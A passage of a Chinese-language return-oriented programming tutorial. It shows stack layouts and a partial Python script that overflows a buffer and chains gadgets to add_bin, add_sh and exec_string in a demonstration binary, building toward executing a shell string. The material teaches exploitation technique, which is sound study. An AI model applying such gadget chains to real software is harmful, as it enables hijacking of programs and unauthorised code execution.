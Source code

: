 我们可目标是调用add_bin，然后是add_sh，然后是exec_string。当我们调用add_bin，堆栈必须看起来像:

```
| <argument>       |
| <return address> |
```

我们希望参数为0xdeadbeef，我们希望返回地址为pop； ret小工具。 这将从堆栈中删除0xdeadbeef，并返回到堆栈中的下一个小工具。 因此，我们有一个小工具来调用add_bin(0xdeadbeef)，如下所示：

```
| 0xdeadbeef            |
| <address of pop; ret> |
| <address of add_bin>  |
```

因为add_sh(0xcafebabe, 0x0badf00d)使用两个参数，所以我们需要一个pop;po;ret:

```
| 0x0badf00d                 |
| 0xcafebabe                 |
| <address of pop; pop; ret> |
| <address of add_sh>        |
```

放在一起就是：

```
| <address of exec_string>     |
| 0x0badf00d                   |
| 0xcafebabe                   |
| <address of pop; pop; ret>   |
| <address of add_sh>          |
| 0xdeadbeef                   |
| <address of pop; ret>        |
| <address of add_bin>         |
| 0x42424242 (fake saved %ebp) |
| 0x41414141 ...               |
|   ... (0x6c bytes of 'A's)   |
|   ... 0x41414141             |
```

这次我们将使用一个python包装器(它还将展示非常有用的struct python模块的使用)。

```python
#!/usr/bin/python

import os
import struct

# These values were found with `objdump -d a.out`.
pop_ret = 0x8048474
pop_pop_ret = 0x8048473
exec_string = 0x08048414
add_bin = 0x08048428
add_sh = 0x08048476

# First, the buffer overflow.
payload =  "A"*0x6c
payload += "BBBB"

# The add_bin(0xdeadbeef) gadget.
payload += struct.pack("I", add_bin)
payload += struct.pack("I", pop_ret)
payload += struct.pack("I", 0xdeadbeef)

# The add_sh(0xcafebabe, 0x0badf00d) gadget.
payload += struct.pack("I", add_sh)
payload += struct.pack("I", pop_pop_ret)
```